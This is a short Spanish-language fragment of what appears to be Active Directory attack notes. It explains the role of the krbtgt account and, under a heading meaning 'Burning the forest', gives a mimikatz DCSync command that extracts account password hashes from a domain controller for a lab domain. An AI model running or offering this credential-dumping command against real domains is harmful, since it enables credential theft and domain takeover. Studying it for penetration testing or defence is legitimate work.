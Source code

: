 **usuario krbtgt**: se crea automáticamente cuando promueve un nuevo dominio de Active Directory. Sin embargo, muchos administradores de AD no tienen suficiente conocimiento de esta cuenta, lo cual es muy importante desde el punto de vista de la seguridad y de toda la operación del dominio.

### Quemando el bosque
```
lsadump::dcsync /domain:prod.corp1.com /user:corp1$
```
